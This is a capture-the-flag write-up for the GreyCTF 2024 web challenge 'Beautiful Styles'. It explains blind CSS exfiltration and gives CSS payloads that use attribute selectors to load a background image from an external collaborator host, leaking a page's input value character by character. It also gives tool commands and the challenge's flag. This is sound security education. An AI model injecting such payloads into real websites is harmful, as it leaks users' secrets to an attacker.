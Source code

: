 ```yaml
---
title: Beautiful Styles
categories: GreyCTF 2024, Web
date: 2024-04-23
date_time: 2024-04-23 19:50
tags: 
- web/css/injection
details: CSS XS-Leak
difficulty: 2.5
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/beautiful-styles"
img_path: /Writeups/CTF/GreyCTF%202024/Web/Beautiful%20Styles/attachments/
image:
  src: Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Challenge Description

I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag only consists of numbers and uppercase letters and the lowercase character `f` (the exception is the flag format of grey{.+})

# Source Code Analysis


```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>My Beautiful Site</title>
    <link
      href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css"
      rel="stylesheet"
      integrity="sha384-T3c6CoIi6uLrA9TneNEoa7RxnatzjcDSCmG1MXxSR1GAsXEV/Dwwykc2MPK8M2HN"
      crossorigin="anonymous"
    />
    <link href="/uploads/{{submit_id}}.css" rel="stylesheet" />
  </head>
  <body>
    <div class="container">
      <h1 id="title">Welcome to my beautiful site</h1>
      <p id="sub-header">
        Here is some content that I want to share with you. An example can be
        this flag:
      </p>
      <input id="flag" value="{{ flag }}" />
    </div>
    <div class="container mt-4">
      <form action="/judge/{{submit_id}}" method="post">
        <input type="submit" value="Submit for judging">
      </form>
    </div>
    <script
      src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"
      integrity="sha384-C6RzsynM9kWDrMNeT87bh95OGNyZPhcTNXj1NW7RuBCsyN/o0jlpcV8Qyq46cDfL"
      crossorigin="anonymous"
    ></script>
  </body>
</html>
```
>[!INFO] Vulnerability Details:
>Refer to [this](https://portswigger.net/research/blind-css-exfiltration)
>- Based on the challenge description, it is hinted that CSS exfiltration is possible, and we know the possible characters the flag contains.
>- The flag is generated by a template engine, can be seen from `{{ }}`
>- CSS exfiltration works by loading a background image from an external site when a specific variable value exists."
{: .prompt-info}
```
input[value^="a"] {  
  color:red;  
  background:url(http://w52oa1fs4nbggxqy4mw7ydb15sbjz9ny.oastify.com)
}
```
>[!EXAMPLE] For example, if the input element has a value that begins with `a`, the element will be red and the background image will be loaded, which will make a request to our burp collaborator 
{: .prompt-info}


# Solution


- Payload
	```
	input[value^="grey{"] {  
	  color:red;  
	  background:url(http://w52oa1fs4nbggxqy4mw7ydb15sbjz9ny.oastify.com)
	}
	```
	>[!INFO] Iterate through all uppercase letters + `f` and numbers 
	{: .prompt-info}


## Manual
![](2iYhEiyqAg.mp4)



## Semi-Auto Script
![](semi_auto.py)


1. Install requirements
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Beautiful Styles]
	└─$ pip3 install selenium pyngrok
	```
2. Run script
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Beautiful Styles]
	└─$ python3 semi_auto.py
	```
3. Demo 
	![](TNQyqBL0CV.mp4)



## Script

![](auto.py)

1. Install `geckdriver`[Releases · mozilla/geckodriver](https://github.com/mozilla/geckodriver/releases)
2. Install requirements
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Beautiful Styles]
	└─$ pip3 install selenium pyngrok
	```
3. Run script
	```
	./geckodriver &
	
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Beautiful Styles]
	└─$ export NGROK_AUTHTOKEN=x
	
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Beautiful Styles]
	└─$ python3 auto.py
	
	Flag: grey{X5S34RCH1fY0UC4NF1ND1T}	
	```

4. Demo 
	![](aQM7QZyd60.mp4)

